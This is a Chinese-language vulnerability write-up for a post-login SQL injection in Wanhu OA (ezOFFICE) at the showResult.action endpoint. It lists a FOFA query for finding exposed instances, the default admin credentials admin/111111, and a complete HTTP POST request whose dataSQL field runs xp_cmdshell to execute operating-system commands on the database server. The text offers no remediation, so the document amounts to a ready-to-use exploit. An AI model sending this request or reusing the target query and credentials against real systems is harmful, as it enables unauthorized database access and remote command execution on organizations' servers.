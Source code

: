 # 万户OA showResult.action 后台SQL注入漏洞

## 漏洞描述

万户OA showResult.action 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132902980](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201329080.png)

默认账号密码：admin/111111

发送请求包：

```
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

![image-20220520132915993](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201329050.png)